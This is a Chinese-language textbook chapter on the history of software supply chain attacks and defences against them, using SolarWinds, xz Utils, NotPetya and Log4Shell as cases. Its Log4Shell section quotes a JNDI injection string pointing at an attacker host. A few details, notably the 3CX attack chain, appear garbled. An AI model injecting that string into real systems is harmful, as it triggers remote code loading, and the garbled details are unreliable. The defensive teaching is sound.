



## 3.9 Log4j到SolarWinds：供应链攻击的演化

### 3.9.1 什么是供应链攻击

供应链攻击（Supply Chain Attack）是一种间接攻击方式：攻击者不直接攻击最终目标，而是入侵目标所依赖的上游供应商、开源组件、构建系统或分发渠道，通过信任传递机制将恶意代码或后门送达最终用户。

这种攻击模式的威力在于它利用了现代软件生态的一个根本特征——**信任传递**。你信任你的供应商，你的供应商信任它的依赖库，依赖库信任它的维护者。整条链上任何一环被攻破，下游所有用户都会受到影响。

#### 供应链攻击与传统攻击的本质区别

| 维度 | 传统攻击 | 供应链攻击 |
|------|---------|-----------|
| 攻击目标 | 直接攻击最终目标 | 攻击上游依赖或供应商 |
| 影响范围 | 单一目标或有限范围 | 数千甚至数万个下游组织 |
| 信任关系 | 绕过或破坏信任 | 滥用现有信任关系 |
| 检测难度 | 较高但有成熟方案 | 极高——恶意代码来自"可信"来源 |
| 攻击成本 | 需要针对每个目标投入 | 一次投入，批量收割 |
| 持续时间 | 通常较短 | 可潜伏数月甚至数年 |
| 归因难度 | 中等 | 极高——攻击痕迹隐藏在合法流量中 |

#### 供应链攻击面全景图

现代软件供应链是一个复杂的网络，每一个节点都可能成为攻击者的入口：



### 3.9.2 供应链攻击的六大类型

供应链攻击并非单一模式，而是覆盖了软件生命周期的每一个阶段。以下是经过实战验证的六种主要攻击类型：

#### 类型一：依赖库投毒（Dependency Poisoning）

攻击者在公共包管理器（npm、PyPI、Maven、crates.io）上发布名称与流行库相似的恶意包，利用开发者的拼写错误或疏忽来传播恶意代码。这种攻击被称为" typosquatting"（仿冒包攻击）。

**真实案例：event-stream事件（2018年）**

2018年11月，npm包`event-stream`（周下载量超过200万）的原维护者将维护权交给了一个名为`right9ctrl`的新贡献者。这位新维护者在后续版本中添加了一个依赖`flatmap-stream`，该依赖中包含了一段专门针对Copay比特币钱包的窃密代码。攻击者花了数月时间建立信任，最终在数百万用户的设备上执行了恶意代码。

攻击链条如下：

1. 攻击者联系原维护者，表示愿意帮忙维护项目
2. 获得npm发布权限后，添加了`flatmap-stream`依赖
3. `flatmap-stream`中包含经过混淆的恶意代码
4. 恶意代码专门针对Copay钱包应用，窃取用户的钱包凭证
5. 通过正常的npm install流程传播到所有依赖`event-stream`的项目

**类似事件还有：**
- `ua-parser-js`（2021年）：周下载量800万的npm包被劫持，植入加密货币挖矿程序和密码窃取器
- `colors`和`faker`（2022年）：维护者Marak Squires故意在自己的流行库中注入无限循环代码，抗议大公司免费使用开源软件
- PyPI上的`colourama`、`jeIlyfish`等仿冒包：利用拼写相似性欺骗开发者安装

#### 类型二：构建系统入侵（Build System Compromise）

攻击者渗透软件的构建环境（CI/CD管道、构建服务器），在编译或打包过程中注入恶意代码。这种方式的危险在于：源代码可能是干净的，但最终产物已经被篡改。

**真实案例：SolarWinds Orion攻击（2020年）**

这是构建系统入侵的教科书级案例。2020年12月，FireEye在调查自身被入侵事件时发现，SolarWinds的Orion IT监控平台的更新包中被植入了名为SUNBURST的后门。

攻击的完整技术链：

1. **初始入侵**：攻击者（后被归因为俄罗斯SVR下属的APT29/Cozy Bear）可能通过以下方式之一获得了SolarWinds内部网络的访问权限——钓鱼邮件、密码泄露或利用未修补的漏洞
2. **构建系统渗透**：攻击者深入到SolarWinds的构建服务器，获取了对编译流程的控制权
3. **代码注入**：在Orion软件的源代码中插入了SUNBURST后门代码。这段代码被精心设计为看起来像正常的源代码变更，不会触发代码审查的警觉
4. **编译与签名**：后门代码在正常的CI/CD流程中被编译到最终产品中，并使用SolarWinds的合法代码签名证书进行签名
5. **分发**：带后门的更新包通过SolarWinds的官方更新渠道分发给约18000个客户
6. **休眠与激活**：SUNBURST在目标环境中先休眠约两周，然后才开始与C2服务器通信。它使用DNS协议进行通信，将数据编码在子域名中，使其看起来像正常的DNS查询
7. **选择性打击**：攻击者从18000个受影响的组织中筛选出约100个高价值目标（包括美国财政部、国土安全部、国务院、五角大楼等政府机构，以及微软、英特尔、思科等科技公司），对这些目标部署了更强大的第二阶段后门TEARDROP

整个攻击从初始入侵到被发现，持续了约14个月（2019年10月至2020年12月）。

**类似事件还有：**
- **CodeCov Bash Uploader攻击（2021年）**：攻击者修改了CodeCov的Bash上传脚本，使其能够收集使用该脚本的CI/CD环境中的环境变量，包括密钥、令牌和凭证
- **PHP Git服务器入侵（2021年）**：攻击者入侵了PHP的官方Git服务器，在PHP源代码中植入了后门，伪装成正常的代码提交

#### 类型三：依赖混淆攻击（Dependency Confusion）

2021年2月，安全研究员Alex Birsan披露了一种新的供应链攻击技术。他发现许多企业在内部使用私有npm/PyPI包，但这些包的名称并未在公共注册中心保留。攻击者可以在公共注册中心发布同名的恶意包，利用包管理器默认优先从公共源安装的特性，让企业员工在安装依赖时不知不觉地引入恶意代码。

Birsan成功入侵了Apple、Microsoft、PayPal、Shopify等35家大型企业的内部系统，获得了漏洞赏金超过13万美元。

防御依赖混淆攻击的方法包括：
- 使用作用域包（scoped packages），如`@company-name/package`
- 配置包管理器优先使用私有注册中心
- 在公共注册中心为内部包名保留占位包
- 使用锁文件（lock file）锁定依赖版本和来源

#### 类型四：数字签名与证书攻击

攻击者窃取合法的代码签名证书，用它来签署恶意软件，使其看起来来自可信来源。

**真实案例：ASUS Live Update攻击（2019年）**

2019年，卡巴斯基实验室发现华硕（ASUS）的Live Update工具的更新服务器被入侵。攻击者使用华硕的合法签名证书签署了恶意更新包，将其推送给约100万华硕用户。这次攻击被称为"Operation ShadowHammer"，攻击者只针对约600个特定MAC地址的用户激活了恶意功能，其余用户不受影响，这使得攻击极难被发现。

**真实案例：韩国安全公司AhnLab事件（2023年）**

2023年，朝鲜黑客组织Lazarus入侵了韩国安全公司AhnLab的更新服务器，通过合法的更新渠道将恶意软件分发给AhnLab的客户。讽刺的是，安全软件的更新机制本身成了攻击载体。

#### 类型五：开源维护者接管

攻击者通过社会工程学手段获取流行开源项目的维护权，然后在项目中植入恶意代码。

**真实案例：xz Utils后门（2024年）**

这是迄今为止最精密的开源供应链攻击之一。2024年3月，微软工程师Andres Freund在调查SSH登录延迟问题时，在xz Utils（几乎所有Linux发行版都依赖的数据压缩库）的5.6.0和5.6.1版本中发现了一个后门。

攻击者"Jia Tan"从2021年开始以可信贡献者的身份参与xz Utils项目，花费两年多时间提交了数百个合法的代码补丁，逐步获得了原维护者Lasse Collin的信任和提交权限。在获得足够信任后，Jia Tan在构建脚本中注入了一段复杂的后门代码，该后门会修改systemd的liblzma库，从而在SSH认证过程中植入后门，允许攻击者无需密钥即可远程登录受影响的系统。

这次攻击的精密程度令人警醒：
- 攻击者使用了多个伪造的GitHub账号施压原维护者交出维护权
- 后门代码经过精心混淆，隐藏在测试用例的二进制文件中
- 构建脚本中的注入逻辑只有在特定条件下才会触发（需要Debian/Red Hat的打包环境）
- 攻击者甚至在社交媒体上操纵舆论，试图加速新版本的发布

如果这个后门没有被及时发现，它将影响几乎所有主流Linux发行版的SSH服务器——这意味着攻击者可能获得全球大量Linux服务器的 root 级别访问权限。

#### 类型六：更新渠道劫持

攻击者入侵软件的更新分发渠道，将合法更新替换为恶意版本。

**真实案例：NotPetya攻击（2017年）**

2017年6月，NotPetya恶意软件通过入侵乌克兰会计软件M.E.Doc的更新服务器传播。攻击者（后被归因为俄罗斯军事情报机构GRU）在M.E.Doc的正常更新中植入了NotPetya勒索软件。由于M.E.Doc是乌克兰企业广泛使用的报税软件，这次攻击迅速感染了乌克兰的大量企业和政府机构，并进一步通过内网传播扩散到全球。

NotPetya最终造成了超过100亿美元的经济损失，成为历史上破坏力最大的网络攻击之一。Maersk（全球最大的集装箱航运公司）、Merck（制药巨头）、FedEx的TNT Express等跨国公司都遭受了严重损失。Maersk不得不重新安装了超过45000台PC和4000台服务器。

### 3.9.3 供应链攻击的演化时间线

从早期的简单依赖投毒到如今的国家级精密行动，供应链攻击在过去十余年间经历了显著的演化：



这个时间线揭示了三个明确的趋势：

**趋势一：攻击者身份从个人到国家级**。早期的供应链攻击者多为个人黑客或小型犯罪团伙，但近年来，美国（NSA）、俄罗斯（SVR/GRU）、中国（APT41）、朝鲜（Lazarus）等国家级APT组织已将供应链攻击作为核心战术。SolarWinds被归因为俄罗斯SVR，NotPetya被归因为俄罗斯GRU，3CX攻击被归因为朝鲜Lazarus组织。

**趋势二：攻击手法从粗放到精密**。早期的仿冒包攻击只需要注册一个相似的包名，而xz Utils攻击者花了两年时间建立信任。攻击的技术门槛和耐心程度都在急剧提升。

**趋势三：攻击目标从单一到连锁**。3CX攻击展示了"供应链攻击的供应链攻击"——攻击者先入侵了一家加密货币公司的TraderTraitor恶意软件，通过它入侵了3CX的构建系统，最终影响了3CX的60万客户。这种多层嵌套的供应链攻击使得防御变得极其困难。

### 3.9.4 深度案例剖析：从Log4Shell看开源供应链的系统性风险

Log4Shell（CVE-2021-44228）不仅是一个技术漏洞，更是开源供应链系统性风险的集中爆发。它的影响远超一般的零日漏洞，因为它暴露了整个开源生态系统结构性的脆弱性。

#### 为什么Log4Shell如此危险

Log4Shell的CVSS评分达到了10分（满分），这并非虚高。它同时满足了四个最危险的条件：

1. **无处不在**：Log4j2是Java生态中最主流的日志框架，被数百万个Java应用直接或间接依赖。据Oracle估计，全球有超过三分之二的企业Java应用使用了Log4j
2. **极易利用**：攻击者只需在任何会被记录到日志的输入中注入`${jndi:ldap://attacker.com/x}`字符串即可触发。User-Agent、HTTP头、URL参数、表单输入、聊天消息——几乎所有用户可控的数据都可能成为攻击向量
3. **完全远程**：无需任何本地访问权限，无需认证，无需特殊条件
4. **影响深远**：从Apache Struts到Elasticsearch，从Minecraft服务器到企业ERP系统，从云服务到IoT设备，无一幸免

#### 漏洞的技术本质

Log4Shell的根本原因是Log4j2的JNDI Lookup功能。JNDI（Java Naming and Directory Interface）是Java的目录服务接口，允许应用从远程服务器查找和加载资源。Log4j2支持在日志消息中使用`${...}`语法进行变量替换，其中`${jndi:...}`会触发JNDI查找。

攻击流程如下：



#### 为什么这个问题存在了这么久

Log4Shell的CVE编号是2021年，但JNDI Lookup功能从2013年（Log4j 2.0-beta）就已经存在。这个漏洞潜伏了8年之久，原因是：

1. **代码审计盲区**：日志库被认为是"安全"的组件，很少被作为安全审计的重点
2. **功能设计缺陷**：JNDI Lookup的设计初衷是方便开发者在配置中引用外部资源，但没有考虑到用户输入可能被直接传递到日志记录中
3. **依赖传递问题**：许多应用并不直接使用JNDI Lookup，但它们依赖的框架（如Spring Boot）默认启用了该功能
4. **开源维护资源不足**：Log4j2的核心维护者只有少数几个人，他们大多是无偿的志愿者，没有足够的时间和资源进行深入的安全审计

#### Log4Shell引发的连锁反应

Log4Shell被公开后的72小时内，全球范围内就出现了大规模的利用浪潮。攻击者将恶意JNDI字符串注入到一切可能的输入点：HTTP头、聊天应用的用户名、Apple设备的名称字段、甚至IoT设备的元数据。Shodan等互联网扫描工具的数据显示，在漏洞公开后的48小时内，全球有超过35000台服务器被成功入侵。

更严重的是，由于Java应用的依赖传递特性，许多组织甚至不知道自己使用了Log4j2。美国CISA发布的紧急指令要求所有联邦机构在指定时间内排查并修复Log4Shell漏洞，但实际排查工作持续了数月之久。

### 3.9.5 防御策略体系

面对供应链攻击的严峻威胁，安全社区已发展出一套多层次的防御策略体系。以下按照"道法术器"的框架逐层展开。

#### 道：安全理念的根本转变

防御供应链攻击首先需要理念层面的转变：

**从"信任但验证"到"永不信任，持续验证"**。传统的安全模型假设来自已知供应商的软件是可信的，但SolarWinds证明了这种假设的致命缺陷。零信任架构（Zero Trust Architecture）的核心理念是：不信任任何内部或外部实体，对所有访问进行持续验证。

**从"边界防御"到"纵深防御"**。当你的供应商可能已经被入侵时，依赖网络边界作为主要防线是不够的。你需要在供应链的每一个环节都建立防御——从代码编写到构建、分发、部署、运行，每一个阶段都需要独立的安全控制。

**从"被动响应"到"主动防御"**。不能等到漏洞被公开或攻击被发现后才采取行动。需要主动监控供应链中的异常变化，比如依赖库的意外更新、构建产物的哈希值变化、代码仓库的异常提交。

#### 法：供应链安全治理框架

**SBOM（Software Bill of Materials，软件物料清单）**

SBOM是供应链安全的基础。它是一份记录软件中所有组件、依赖库及其版本的清单，类似于食品的成分表。有了SBOM，当一个新的漏洞被披露时（如Log4Shell），你可以在几分钟内确定你的哪些系统使用了受影响的组件。

SBOM的标准格式包括：
- **SPDX**（Software Package Data Exchange）：由Linux基金会维护，ISO/IEC 5962:2021标准
- **CycloneDX**：由OWASP维护，专注于安全和供应链风险管理
- **SWID Tags**（Software Identification Tags）：ISO/IEC 19770-2标准

美国行政命令14028（2021年5月）要求向美国政府销售软件的供应商必须提供SBOM。

**SLSA（Supply-chain Levels for Software Artifacts）**

SLSA是Google提出的供应链安全框架，定义了四个安全级别：

| 级别 | 要求 | 典型场景 |
|------|------|---------|
| SLSA 1 | 构建过程有文档记录 | 个人项目，手动构建 |
| SLSA 2 | 使用版本控制和托管构建服务 | 大多数开源项目 |
| SLSA 3 | 构建平台经过审计，源代码经过审查 | 企业级软件 |
| SLSA 4 | 双人审查、封闭构建、可重现构建 | 关键基础设施软件 |

#### 术：具体防御技术

**依赖安全扫描**

在项目的CI/CD管道中集成依赖漏洞扫描工具，每次构建时自动检查所有依赖是否存在已知漏洞。

常用工具：

| 工具 | 语言/生态 | 特点 |
|------|----------|------|
| Dependabot | GitHub原生 | 自动创建修复PR |
| Snyk | 多语言 | 漏洞数据库全面，有免费额度 |
| Trivy | 多语言/容器 | 开源，支持容器镜像扫描 |
| OWASP Dependency-Check | Java为主 | 开源，OWASP官方维护 |
| npm audit | Node.js | npm内置，零配置 |
| pip-audit | Python | Google维护，与PyPI漏洞数据库对接 |
| cargo-audit | Rust | RustSec安全数据库 |

**依赖锁定与固定版本**

始终使用锁文件（lock file）来锁定依赖的精确版本和来源。避免使用通配符版本（如`^1.0.0`或`latest`），因为这些会在不经意间引入新版本，包括可能被投毒的版本。

```bash
# npm: 使用package-lock.json
npm ci  # 而不是npm install，确保严格按照lock文件安装

# Python: 使用requirements.txt锁定哈希
pip install -r requirements.txt --require-hashes

# pip freeze生成锁定文件
pip freeze > requirements.txt
```

在requirements.txt中锁定哈希值的示例：

```text
requests==2.31.0 \
    --hash=sha256:58cd2187c01e70e6e26d9fb8e0ece7b6c69e1e6d99e0c39c23e676b0c6c0fc5a \
    --hash=sha256:9474d6b9ea74c7449e0d8e4e2e4e3c7f3e7b7b7b7b7b7b7b7b7b7b7b7b7b7b7b
```

**代码签名与完整性验证**

所有发布的软件包都应使用数字签名，客户端应验证签名的有效性。这不仅包括最终产品，还应包括构建过程中的中间产物。

```bash
# GPG签名验证
gpg --verify package.tar.gz.asc package.tar.gz

# Sigstore/cosign验证容器镜像
cosign verify --key cosign.pub example.com/myimage:latest

# npm包签名验证
npm audit signatures
```

**构建可重现性（Reproducible Builds）**

可重现构建确保相同的源代码在任何环境下都产生完全相同的二进制输出。这意味着任何人都可以从源代码重新构建软件，并验证官方发布的二进制文件是否与源代码一致。

实现可重现构建的关键措施：
- 固定构建工具链的版本
- 消除构建过程中的不确定性因素（时间戳、路径、随机数）
- 使用封闭构建环境（如Nix、Bazel）
- 发布构建环境的详细规格

**运行时行为监控**

即使代码签名验证通过，也需要监控软件运行时的行为。SolarWinds的后门使用了合法的签名证书，传统的签名验证无法检测它。运行时监控可以发现异常的网络通信、文件系统访问、进程创建等行为。

关键监控指标：
- 进程的网络连接模式（SUNBURST使用DNS进行C2通信）
- 系统调用序列异常
- 内存中的代码注入
- 异常的DNS查询模式（如超长子域名、高频TXT查询）
- 与已知恶意IP/域名的通信

#### 器：工具与平台

**Sigstore生态系统**

Sigstore是一套免费的软件签名、验证和透明度工具，旨在降低采用代码签名的门槛。它的三个核心组件：
- **cosign**：用于签署和验证容器镜像和其他OCI制品
- **fulcio**：基于OIDC身份的短期证书颁发机构
- **rekor**：不可篡改的签名透明度日志

**in-toto**

in-toto是一个供应链完整性框架，定义了软件供应链中每个步骤的布局（layout），确保从源代码到最终产品的每一个环节都按照预期执行。如果任何步骤被篡改或跳过，最终产物的完整性验证将失败。

**GUAC（Graph for Understanding Artifact Composition）**

GUAC是Google开源的供应链安全分析平台，将来自SBOM、漏洞数据库、SLSA证明等多个来源的数据整合为一个可查询的图数据库，帮助安全团队理解软件制品之间的依赖关系和安全风险。

**OpenSSF Scorecard**

OpenSSF Scorecard自动评估开源项目的安全实践，给出0-10分的评分。评估维度包括：代码审查、分支保护、CI/CD安全、依赖更新、漏洞修复速度等。你可以在https://securityscorecards.dev/查看流行开源项目的安全评分。

### 3.9.6 组织层面的供应链安全实践

技术工具只是供应链安全的一部分，组织层面的制度建设和流程管理同样重要。

#### 建立供应链安全评估流程

对所有第三方软件和组件进行安全评估，评估内容包括：

1. **供应商安全资质**：是否通过ISO 27001、SOC 2等安全认证
2. **代码安全实践**：是否进行静态分析、动态分析、渗透测试
3. **漏洞响应能力**：历史漏洞的修复速度和披露流程
4. **开源组件管理**：如何管理项目中的开源依赖
5. **构建安全**：是否采用可重现构建、是否有SLSA认证
6. **事件响应**：是否经历过安全事件，响应能力如何

#### 建立应急响应预案

当供应链攻击发生时（不是"如果"，而是"当"），你需要有预先准备好的响应流程：

1. **识别**：如何确定你是否受到特定供应链攻击的影响？SBOM查询是关键
2. **遏制**：如何快速隔离受影响的系统？需要有预定义的网络隔离方案
3. **根除**：如何彻底清除恶意代码？需要有已知干净的基线镜像
4. **恢复**：如何安全地恢复服务？需要有经过验证的恢复流程
5. **总结**：如何从事件中学习并改进？需要有事后审查机制

#### 培养供应链安全意识

供应链安全不仅是安全团队的责任，开发团队、运维团队、采购团队都需要理解供应链风险：

- **开发者**：了解依赖安全，学会使用锁文件和版本固定
- **运维人员**：了解构建安全，监控部署管道的异常
- **采购人员**：了解供应商安全评估，将安全要求纳入采购流程
- **管理层**：理解供应链风险的业务影响，为安全投入提供资源

### 3.9.7 未来趋势与前沿挑战

供应链攻击正在快速演化，以下是安全从业者需要关注的前沿趋势：

#### AI/ML供应链攻击

随着AI/ML在企业中的广泛应用，针对AI供应链的攻击正在成为新的威胁前沿：

- **模型投毒**：在预训练模型中植入后门，在特定输入下触发恶意行为
- **数据投毒**：在训练数据中注入恶意样本，影响模型的行为
- **模型窃取**：通过供应链渠道获取未公开的模型权重
- **Hugging Face模型后门**：2024年，安全研究员在Hugging Face上发现了多个包含恶意代码的ML模型，这些模型在加载时会执行任意代码

#### 容器与云原生供应链

容器镜像和云原生组件的供应链安全面临独特挑战：

- **基础镜像投毒**：在Docker Hub上发布包含恶意代码的基础镜像
- **Helm Chart后门**：在Kubernetes部署模板中注入恶意配置
- **Operator投毒**：在Kubernetes Operator中植入后门
- **Terraform Provider攻击**：在基础设施即代码的Provider中注入恶意逻辑

#### 硬件供应链攻击

软件供应链攻击的逻辑同样适用于硬件：

- **芯片后门**：在芯片设计或制造过程中植入硬件后门
- **固件投毒**：在设备固件中植入恶意代码
- **BMC/基板管理控制器攻击**：入侵服务器的带外管理接口

### 3.9.8 对安全从业者的启示

供应链攻击的演化趋势为安全从业者提供了几个关键启示：

**安全是生态系统的问题，不是单一组织的问题。** 你可以在自己的组织内做到完美的安全实践，但如果你的供应商被入侵，你的安全就毫无意义。这意味着安全从业者需要将视野从组织边界扩展到整个供应链生态系统。参与行业安全信息共享组织（如ISAC），加入OpenSSF等开源安全倡议，与供应商建立安全合作关系——这些都是超越组织边界的必要行动。

**防御需要思维的根本转变。** 传统的基于签名的防御、基于边界的防御、基于信任的防御，在供应链攻击面前都显得力不从心。你需要假设供应链中的任何环节都可能被攻破，然后在此假设下设计防御体系。这就是零信任架构的核心理念——永不信任，持续验证。

**开源安全是公共品，需要公共投入。** Log4Shell和xz Utils事件共同揭示了一个结构性问题：整个互联网的基础设施依赖于少数几个无偿维护的开源项目。企业从开源软件中获取了巨大的价值，但很少为开源项目的安全维护提供足够的资源。安全从业者应该推动自己的组织参与开源安全投资——无论是通过代码贡献、安全审计、还是资金支持。

**时间是最好的攻击工具。** xz Utils攻击者花了两年时间建立信任，SolarWinds攻击者潜伏了14个月。高级供应链攻击不是一蹴而就的，而是需要长时间的耐心渗透。这意味着防御也不能是一次性的，而需要持续的监控和审计。

**透明度是防御的基础。** 当供应链攻击发生时，受影响的组织能否快速确定自己是否受到影响，取决于他们对自身软件供应链的了解程度。SBOM、依赖锁定、构建可追溯性——这些实践的核心价值在于提供透明度。你无法防御你看不见的东西。

### 3.9.9 延伸阅读

如果你想深入研究供应链安全，以下资源值得关注：

- **NIST SP 800-218**（Secure Software Development Framework）：美国国家标准与技术研究院的安全软件开发框架
- **OWASP Software Component Verification Standard (SCVS)**：OWASP的软件组件验证标准
- **Google's Supply Chain Security Blog Series**：Google关于SLSA和供应链安全的系列博文
- **OpenSSF Best Practices**：https://best.openssf.org/ 开源安全最佳实践
- **Sonatype State of the Software Supply Chain Report**：每年发布的软件供应链安全状态报告
- **Nicole Perlroth,《This Is How They Tell Me the World Ends》**：关于零日漏洞市场的深度调查，包含大量供应链攻击的背景信息

> "The next great war will be fought not with bombs or bullets, but with bits and bytes — delivered through the software supply chain."
> 这句话不再是一个遥远的预言。从SolarWinds到Log4Shell，从xz Utils到3CX，供应链攻击已经从理论威胁变成了现实危机。每一个安全从业者都需要理解这条攻击链，并在自己的组织中建立相应的防御能力。
